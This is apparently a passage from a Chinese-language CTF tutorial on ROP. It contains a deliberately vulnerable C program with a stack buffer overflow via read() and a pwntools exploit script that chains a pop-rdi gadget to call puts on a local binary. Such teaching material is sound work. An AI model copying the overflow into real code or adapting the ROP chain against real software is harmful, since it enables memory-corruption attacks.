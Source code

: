 **示例**

已下面这个程序为例，目的是让程序输出`Hello, World!`：

```c
#include <stdio.h>

char *str = "Hello, World!";

void func1() { puts("func1 called"); }

int main() {
    char str[0x20];

    read(0, str, 0x50);

    return 0;
}
```

对应的exp脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

puts_addr = elf.sym["puts"]
str_hello_world = 0x00402004
pop_rdi_ret = 0x0000000000401203

payload = b"A" * 0x28
payload += p64(pop_rdi_ret)
payload += p64(str_hello_world)
payload += p64(puts_addr)

p.send(payload)

p.interactive()
```

栈帧变化的动画演示：

![img](../.gitbook/assets/rop\_gadget.gif)
